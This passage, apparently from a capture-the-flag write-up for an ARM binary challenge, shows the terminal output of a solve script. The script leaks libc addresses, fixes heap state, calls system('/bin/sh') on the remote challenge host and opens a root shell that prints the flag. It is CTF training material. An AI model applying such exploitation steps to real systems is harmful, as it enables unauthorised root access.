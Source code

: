 And in fact it does!

```
$ ./solve.py
[+] Opening connection to on.acictf.com on port 32840: Done
[*] '/home/user/cyberstakes/armed/armed'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
[*] '/home/user/cyberstakes/armed/libc.so.6'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] printf.got : 0xf66cdb30
[*] libc base: 0xf6686000
[*] Fixing heap state...
[*] /bin/sh addr: 0xf67a721c
[*] Triggering system...
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
$ ls
ARMed
arm_libs
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
$ cat flag
ACI{9bcf1e35201d1f5029366a3554f}
```
